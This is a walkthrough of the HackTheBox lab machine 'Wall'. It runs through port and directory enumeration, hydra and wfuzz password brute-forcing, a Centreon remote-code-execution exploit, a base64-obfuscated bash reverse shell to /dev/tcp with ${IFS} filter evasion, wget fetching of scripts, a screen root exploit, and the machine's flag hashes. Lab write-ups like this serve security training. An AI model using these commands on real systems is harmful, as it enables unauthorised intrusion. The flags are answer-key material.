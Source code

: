 # Wall
## Machine
HackTheBox -> Machine -> Wall
## Tools
Tool | Description
------- | -------
[SecLists](https://github.com/danielmiessler/SecLists) | types of lists used during security assessments, collected in one place.
[LinEnum](https://github.com/rebootuser/LinEnum) | 
[Gobuster](https://github.com/OJ/gobuster) | Gobuster is a tool used to brute-force.
[Hydra](https://github.com/vanhauser-thc/thc-hydra) | This tool is a proof of concept code, to give researchers and security consultants the possibility to show how easy it would be to gain unauthorized access from remote to a system.
[nmap](https://github.com/nmap/nmap) | 
[wfuzz](https://github.com/xmendez/wfuzz) | Wfuzz has been created to facilitate the task in web applications assessments and it is based on a simple concept: it replaces any reference to the FUZZ keyword by the value of a given payload.
[searchsploit](https://github.com/offensive-security/exploitdb) |  

## Description
After a **nmap** scan we find that there is a web page.

![Nmap](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_01.png)
```
nmap -sC 10.10.10.157
```
![Web Page](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_02.png)

Now we can use **Gobuster** and **SecList** to discover all the pages hosted.

![Gobuster](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_03.png)
```
gobuster dir -q -t 20 -w /usr/share/seclist/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.10.157/
```
We find "monitoring" page, and after some test we discover there is a redirect.

![Curl Redirect](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_04.png)

We discover a new page "centreon".

![Centreon Web page](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_05.png)

We try to bruteforce without succes.

![Hydra](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_06.png)
```
hydra -l admin -P /usr/share/seclist/Password/probable-v2-top12000.txt http-post-form://10.10.10.157 -m "/monitoring:useralias=^USER^&password=^PASS^:Your credentials are incorrect"
```
So after we read the source of the page we find there is a token to use.

![Page source](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_07.png)

After some search on internet we find there is an api and we can login with it.
With **Wfuzz** we can bruteforce the login page.

![Wfuzz](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_08.png)
```
wfuzz -c --hc 443 -w /usr/share/seclist/Password/probable-v2-top1575.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
```
![Password](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_09.png)
```
admin:password1
```
After login and some search we can use an exploit with **searchsploit**

![Searchsploit](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_10.png)
```
searchsploit -m 47069.py
python 47069.py 
```
If this not work you need to do by hand.
```
echo -n "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
echo${IFS}<base64>|base64${IFS}-d|bash;
```
And using the WebApp start the script on the server.

![WebApp](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_11.png)

![WebApp](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_11_1.png)

Now using netcat we will have a shell.

![shell](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_12.png)
```
nc -lnvp 1337
```
Now you need to download from the server the LineEnum and run it.

To do that you use.

On your pc, on the directory of LineEnum:
```
python2.7 -m SimpleHTTPServer <POSRT>
```
On the server:
```
cd /tmp
wget http://<IP>:<PORT>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
After using Linenum we find that there is a process screen that is obsolete and vulnerable.

![Linenum](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_13.png)

With **searchsploit** we found the exploit for screen, 41154.
```
searchsploit -m 41154
dos2unix 41154.sh
```
On the server:
```
cd /tmp
wget http://<IP>:<PORT>/41154.sh
chmod +x 41154.sh
./41154.sh
```
Than as root you can read shelby and root flag.

![FLAG](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/06_14.png)
```
cat /home/shelby/user.txt
cat /root/root.txt
```
## FLAG
user: **fe6194544f452f62dc905b12f8da8406**

root: **1fdbcf8c33eaa2599afdc52e1b4d5db7**